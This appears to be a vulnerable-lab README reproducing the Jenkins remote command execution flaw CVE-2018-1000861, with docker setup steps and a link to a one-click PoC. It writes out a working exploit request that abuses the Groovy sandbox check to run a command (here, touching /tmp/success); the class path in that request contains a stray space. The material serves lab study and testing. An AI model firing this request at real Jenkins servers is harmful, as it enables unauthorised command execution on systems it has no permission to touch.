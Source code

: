 # Jenkins Remote Command Execution Vulnerability (CVE-2018-1000861)

**Jenkins** is developed using the Stapler framework, which allows users to invoke public methods once via **URL** **PATH**. Since this process is not made restrictive, an attacker can construct some special **PATH** to execute some sensitive **Java** methods.

Through this vulnerability, we can find many exploit chains that can be exploited. One of the most serious is to bypass the Groovy sandbox leads to unauthorized users can execute arbitrary commands : Jenkins in the sandbox to execute Groovy before the script will be checked for errors , checking the operation is not sandboxed , the attacker can be through the Meta-Programming way , in checking this step to execute arbitrary commands .


## Environment Setup

Start a **Jenkins 2.138** by executing the following command, and the plugin containing the vulnerability has been installed:

```bash
docker-compose up -d
```

Once the environment is up, visit `http://your-ip:8080` to see a Jenkins that has been successfully initialized without any further action.

## Vulnerability Replication

Using the [one-click POC script](https://github.com/orangetw/awesome-jenkins-rce-2019) given by @orangetw, send the following request to successfully execute the command:

```bash
http://your-ip:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy. SecureGroovyScript/checkScript
?sandbox=true
&value=public class x {
  public x(){
    "touch /tmp/success".execute()
  }
}
```

![](2.png)

`/tmp/success` has been successfully created:

![](3.png)

For a detailed guide on the **Jenkins Remote Command Execution Vulnerability (CVE-2018-1000861)**, including a comprehensive explanation of the vulnerability and potential attack, please refer to the project's documentation at [GitHub Pages](https://sne-m23-sn.github.io/Vulnerable-Nodes-Lab/#CVE-2018-1000861).
